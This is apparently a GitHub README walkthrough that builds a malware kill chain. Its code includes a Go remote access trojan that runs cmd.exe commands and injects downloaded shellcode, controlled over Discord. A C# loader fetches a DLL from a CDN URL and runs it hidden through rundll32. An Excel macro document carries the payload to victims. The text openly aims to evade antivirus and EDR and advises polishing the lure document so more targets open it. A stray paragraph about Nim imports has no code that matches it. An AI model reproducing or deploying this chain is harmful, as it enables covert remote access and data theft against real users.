

# The Killchain - An Adversarial Malware Design Walkthrough



# Requirements

- Windows 10 the assumption being that this walkthrough was developed using Windows 10 and Window's Subsytem for Linux - Debian for the purposes of compiling our malware.
- The Go Programming Language
- .NET Framework 5 I am using the dotnet cli utility for compiling our C# application since we only need one class.
- Any Linux distro


# Goals

The purpose of this adversarial malware design walkthrough is to explore techniques for designing a malware that will grant remote access to a target while also attempting to bypass AV and EDR solutions.
This specific walkthrough makes use of the Living of the Land technique to load our binary onto the target. 
Here is a brief summary of the steps we need to take.
1. Design a simple remote access trojan that is not signatured by AV (Using this tradecraft you can substitute this for an advanced dropper)
2. Compile our trojan as a dynamic link library.
3. Modularizing our trojan by preparing it for reflective dll execution.
4. Deliver a malicious file to the target that will excute our malware in memory.

If we successfully execute the above techniques the only artifact on disk for forensics will be our poisoned file.
It is important to note that it will still be possible to inspect our malware using forensic tooling capable of dumping process memory.
Also consider the fact that if your malware executes attacks on other devices on the network this can lead to greater scrutiny of the infected device.

# Step 1: Designing the Trojan

For the sake of brevity our trojan will be a very simple one I developed call Santana, you can download the repository for it [here](https://github.com/bakarilevy/Santana) 

Of note within this trojan is that it is a standard discord bot that accepts commands and runs them:
```go
if ACTIVE_STATUS == true {
		if m.Content == "!snapshot" {
			snapshotName := takeSnapshot()
			snapshotData, err := os.OpenFile(snapshotName, os.O_RDWR, 0644)
			if err != nil {
				fmt.Println("Unable to open the specified file ", err)
			} 
			s.ChannelFileSend(m.ChannelID, snapshotName, snapshotData)
			defer snapshotData.Close()
			go removeFile(snapshotName)
		}
	
		if strings.HasPrefix(m.Content, "!exec-shellcode ") {
			u := m.Content[16:]
			s.ChannelMessageSend(m.ChannelID, "Attempting to execute shellcode located at " + u)
			se := getShellcode(u)
			go process_injection(se, "notepad.exe")
	
		}
	
		if strings.HasPrefix(m.Content, "!exec-command ") {
			comm := m.Content[14:]
			s.ChannelMessageSend(m.ChannelID, "Attempting to run your command")
			app := "cmd.exe"
			arg := fmt.Sprintf("/c %s", comm)
			go commandRunner(app, arg)
		}
}
```
Keep in mind that the actual Santana trojan has more functionality than this snippet.

Another aspect of note is this section near the end of the code:
```go
//export DllMain
func DllMain() {
	main()
}
```
This section is very important because it will serve as the entry point of our binary after we compile it into a Dynamic Link Library (DLL).

We will executine our DLL using a native binary that is already preinstalled on most Windows devices, rundll32.exe

Notice that this remote access trojan is written using Go, this allows us to easily create a relatively cross platform, statically linked binary that has all of its dependencies included at compile time. As long as the target OS and Architechture is similar, our trojan should run with little to no problems.

# Step 2: Compiling the Trojan as a Dynamic Link Library

Let's compile this script on our machine with the following compiler flags:

```
go build -o <dll-name>.dll -buildmode=c-shared
```

When we use a Go based trojan, the memory footprint would be much larger than many other compiled languages because all Go binaries contain the Go runtime.  Some advantages to using Go are that because the size of the binaries are so large, some AV products won't scan your malware. 
It is also much more time consuming to analyze Go based malware because forensics teams need to sift through the Go runtime code as well as benign library code in order to identify your malicious code. 
This very fact has led to AV vendors accidently writing signatures for the Go runtime and flagging important software like Docker as malware accidently in the past.

When the Santana trojan executes it will connect to the discord server you have imported the bot in, Discord functions as the CC Server while the actual DLL file functions as the CC Agent (where CC means Command and Control).
The idea is when successfully staged and execute, the Santana trojan will login and become active on your discord server.

# Step 3: Modularizing our Trojan
Now that we have a dynamic link library and our c2 server has been setup, lets prepare the next stager for our malware, we can use the SharpLoader tool that I developed, it is a simple .NET based application that downloads and runs Windows binaries. The repository can be found [here](https://github.com/bakarilevy/SharpLoader).
Let's reason about the full process we will use to get our trojan to execute on our victim's device. 
First we want to deploy a malicious file to the target that will start the SharpLoader application.
SharpLoader will download our Santana Trojan DLL from a file sharing site (like Discord).
SharpLoader will then startup our Trojan and our trojan will connect to our discord server so that we can interact with the target.  

Let's take a peek inside how SharpLoader will achieve this:
```c#
    public static void GetFile(string url, string filename) {
            string currentUser = Environment.UserName;
            string downloadPath = $@"C:\Users\{currentUser}\AppData\Roaming\{filename}";
            using(WebClient myWebClient = new WebClient()) {
                
                myWebClient.DownloadFile(url, downloadPath);
            }
    }

```
As we can see, SharpLoader will save our malware to the AppData\Roaming\ folder, this folder is typically hidden from normal users so they won't see it. You can of course change this as you see fit.

Also since we are compiling our trojan as a DLL file, let's see how SharpLoader executes the DLL:
```c#
public static void DllLoader(string remoteDllUrl, string localDllName, string dllEntryName) {
            string currentUser = Environment.UserName;
            GetFile(remoteDllUrl, localDllName);
            string localDllPath = $@"C:\Users\{currentUser}\AppData\Roaming\{localDllName}"; 
            string command = $"/c rundll32.exe {localDllPath},{dllEntryName}";
            RunCommand(command);
}

public static void RunCommand(string command) {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
            startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = command;
            process.StartInfo = startInfo;
            process.Start();
}
```

We can see that the two functions used are straight forward, remember if you change the location of where you download the trojan file, you will need to update it's location in the DllLoader function.

In order to make use of this functionality we simply need to update the Main function of SharpLoader with code like this:
```c#
public static void Main(string[] args) {

    string remoteDllUrl = "https://cdn.discordapp.com/attachments/804752207312322adas1/94762sdafsga064890890/example.dll";
    string localDllName = "virus.dll";
    string dllEntryName = "DllMain";
    DllLoader(remoteDllUrl, localDllName, dllEntryName);
}
```
In the above example you would subsitite the remoteDllUrl variable with the actual location you have stored your trojan DLL, and the name you want the file to be saved as on the target computer for the variable localDllName.

We can compile this C# program into a .NET assembly using the following command:

```
dotnet build
```

Now this will produce a C# .NET binary that could be loaded into memory but its not really necessary at this point.
Since we have updated our SharpLoader application, let's directly convert it into a malicious excel file that will execute SharpLoader from memory.

# Step 4: Deliver our malicious file

For us to craft the final piece of malware we need to initiate our killchain let us quickly inventory what we might need.  
We know that Microsoft business applications usually have the ability to execute code, generally these are referred to as Macros.
We could use a tool such as [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) to convert the .NET application that we wrote into a macro we embed into an Office document for us however there are limitations to this approach.  
The first limitation is that DotNetToJscript may not work with the version of the .NET Framework we are targeting, this consideration is very important, perhaps if you were already using an older version of the .NET Framework it wouldn't be an issue, however we are using the .NET Framework 6 at the time of writing.  
To use that tool you will need to have the targeting packs for older versions of the .NET Framework to even be able to compile the tool in order to use it.  
You then would need to design your .NET application to be compatible with the tool, and this could lock you into using specific versions of your toolchain.  
Being locked in like this allows endpoint detection systems to build analytics over time.
Of course we want as much flexibility as possible and to make things extensible so we can swap out things in our toolchain as needed.
For now one of our best options for creating a malicious Office document is [EXCELntDonut](https://github.com/FortyNorthSecurity/EXCELntDonut). This tool can take the source code for our SharpLoader Application and generate an Excel Sheet that will launch SharpLoader from memory as soon as the Excel sheet is opened and the enable content button is selected.
To setup EXCELntDonut you will need linux, run the installation script by typing the following:

```
chmod +x install.sh
./install.sh
```

After the tool has been installed, run the tool while passing in the source code for SharpLoader (Dont forget to update SharpLoader with the correct URLs and Main Function first.):
```
EXCELntDonut -f Program.cs
```

After the build completes, you should see an output of a posisoned excel file that you can now deploy to your target.
I would recommend that you take time to pretty up the Excel Document prior to deploying it in the field so that you can get a higher interaction success rate.

Here you can see our imports, the import of most note is the "winim/com" library.
Winim is a lightweight library in Nim that exposes many primitives across the Windows API for easy usage in Nim.

# Resources
- https://github.com/byt3bl33d3r/OffensiveNim - Excellent Proof Of Concept scripts for Nim based malware
- https://inv.riverside.rocks/watch?v=gH9qyHVc9-M - Excellent explanation of several techniques for executing Shellcode using Go
- https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/ - An excellent explanation of how AMSI works and common bypasses
- https://github.com/stephenfewer/ReflectiveDLLInjection - Author of the Reflective DLL Injection technique
- https://www.pinvoke.net/index.aspx - Handy reference of .NET P/Invoke function signatures
- https://github.com/r3nhat/XORedReflectiveDLL - Template of our Injection.cs class, slightly modified for our use cases
- https://github.com/bakarilevy/SharpLoader - General Purpose .NET Loader
- https://github.com/bakarilevy/Santana - General Purpose Remote Access Trojan
- https://github.com/FortyNorthSecurity/EXCELntDonut - Macro Document Generator